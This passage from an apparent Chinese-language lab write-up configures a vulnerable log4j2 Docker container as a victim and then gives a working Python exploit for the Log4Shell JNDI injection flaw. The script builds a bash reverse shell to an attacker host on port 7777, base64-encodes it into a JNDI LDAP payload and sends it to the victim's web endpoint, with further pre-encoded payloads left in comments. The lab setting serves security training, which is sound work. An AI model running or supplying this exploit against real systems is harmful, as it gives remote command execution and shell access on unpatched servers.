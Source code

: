 ### 4.3 受害者环境配置

由于直接在 `vulfocus` 中启动 `漏洞环境镜像` 默认 30 分钟后销毁，且由于其随机端口转发，不方便调试。故这里使用 `docker-compose` **直接启动** `log4j` 漏洞环境。

docker image: [vulfocus/log4j2-rce-2021-12-09:1](https://hub.docker.com/r/vulfocus/log4j2-rce-2021-12-09/tags)

```yaml
services:
  log4j:
    image: "vulfocus/log4j2-rce-2021-12-09:1"
    ports:
      - "8080:8080" # 固定端口转发
```

### 4.4 漏洞利用代码

```python
"""log4j2 JNDI 注入"""

import base64
import urllib.parse

import requests

ATTACKER_HOSTNAME = "kali-attacker.mlab"
VICTIM_HOSTNAME = "ubuntu-victim.mlab"

shell_redirection = f"bash -i >& /dev/tcp/{ATTACKER_HOSTNAME}/7777 0>&1"

shell_redirection_bytes = shell_redirection.encode("ascii")
shell_redirection_b64 = base64.b64encode(shell_redirection_bytes).decode("ascii")

print(f"Encoded string: {shell_redirection_b64}")


params = {
    # "payload": "${jndi:ldap://kali-attacker.mlab:1389/TomcatBypass/Command/Base64/YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjU2LjIxNC83Nzc3IDA+JjE=}",
    # "payload": "${jndi:ldap://kali-attacker.mlab:1389/TomcatBypass/Command/Base64/YmFzaCAtaSA%2BJiAvZGV2L3RjcC8xOTIuMTY4LjU2LjE2Mi83Nzc3IDA%2BJjE%3d}",
    "payload": "${jndi:ldap://kali-attacker.mlab:1389/TomcatBypass/Command/Base64/"
    + urllib.parse.quote_plus(shell_redirection_b64)
    + "}",
}


response = requests.get(
    "http://ubuntu-victim.mlab:8080/hello",
    params=params,
    verify=False,
    timeout=10,
)

print(response.request.url)
print(response.text)
```
